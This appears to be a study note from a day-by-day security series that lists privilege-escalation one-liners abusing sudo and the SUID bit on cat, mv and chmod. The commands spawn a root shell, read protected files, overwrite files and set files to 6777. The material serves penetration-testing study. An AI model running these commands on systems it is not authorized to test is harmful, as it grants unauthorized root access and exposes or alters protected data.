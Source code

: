 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

   • SUID :
   
   ```sh
  sudo install -m =xs $(which mv) .

  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
• Sudo:
    ```sh
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  sudo mv $TF $LFILE```

### ♦ `chmod` :
   ⇨ The `chmod` command can change file permissions with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which chmod) .

  LFILE=file_to_change
  ./chmod 6777 $LFILE
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  sudo chmod 6777 $LFILE
  ```

